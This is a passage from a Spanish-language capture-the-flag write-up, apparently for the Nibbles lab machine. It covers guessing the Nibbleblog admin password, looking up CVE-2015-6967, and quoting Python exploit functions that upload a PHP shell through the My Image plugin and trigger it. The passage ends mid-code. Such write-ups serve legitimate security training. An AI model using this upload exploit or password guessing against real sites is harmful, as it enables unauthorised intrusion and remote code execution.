 A continuación accedemos a otro de los recursos encontrado gracias al fuzzing de directorios, el panel de administración:

http://10.10.10.75/nibbleblog/admin.php?controller=user&action=login

![image](https://github.com/user-attachments/assets/9b0dce79-0247-40cc-a4cc-274035c2d77c)


Antes de iniciar un ataque de fuerza bruta, probamos el usuario `admin`obtenido en el paso anterior con contraseñas como nibblesblog, nibbleblog, nibbles y obtenemos éxito con esta última:

![image](https://github.com/user-attachments/assets/9731d6c7-4b12-46ca-b4e5-b735328767e7)

## 💻 Explotación

Anteriormente enumeramos la versión de este CMS. Una simple búsqueda nos permite saber que vulnerable a Arbitrary FIle Upload

```
searchsploit nibbleblog
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ------------
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                                                                                                | php/remote/38489.rb
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### 🔓 CVE-2015-6967

La vulnerabilidad de carga de archivos sin restricciones en el complemento My Image en Nibbleblog anterior a 4.0.5 permite a los administradores remotos ejecutar código arbitrario cargando un archivo con una extensión ejecutable y luego accediendo a él mediante una solicitud directa al archivo en content/private/plugins/my_image/image.php.

Existen varios exploits públicos que permiten explotar esta vulnerabilidad:

https://github.com/dix0nym/CVE-2015-6967

En mi caso, solo voy a usar el exploit como referencia para entender lo que está haciendo. Hay una función para login y posteriormente  hay otro par de funciones, una que se encarga de crear o subir un plugin llamado "my_image" adjuntando una shell "nibbles.php" como payload y posteriormente se realiza una llamada a `content/private/plugins/my_image/image.php` para desencadenar la reverse shell:

```python
def upload_shell(session, nibbleURL, payload):
	uploadURL = f"{nibbleURL}admin.php?controller=plugins&action=config&plugin=my_image"
	uploadPostResp = session.post(uploadURL, data={'plugin':'my_image','title':'My image','position':'4','caption':'capton','image_resize':'1','image_width':'230','image_height':'200','image_option':'auto'}, files={'image': ('nibbles.php', payload, 'application/x-php')}, timeout=30)
	if '<b>Warning</b>' in uploadPostResp.text:
		print('[+] Upload likely successfull.')
	else:
		print('[-] Upload likely failed.')

def execute_shell(session, nibbleURL):
	exploitURL = f"{nibbleURL}content/private/plugins/my_image/image.php"
	exploitResp = session.get(exploitURL)

	if exploitResp.status_code == 200:
		print('[+] Exploit launched, check for shell.')
	else:
```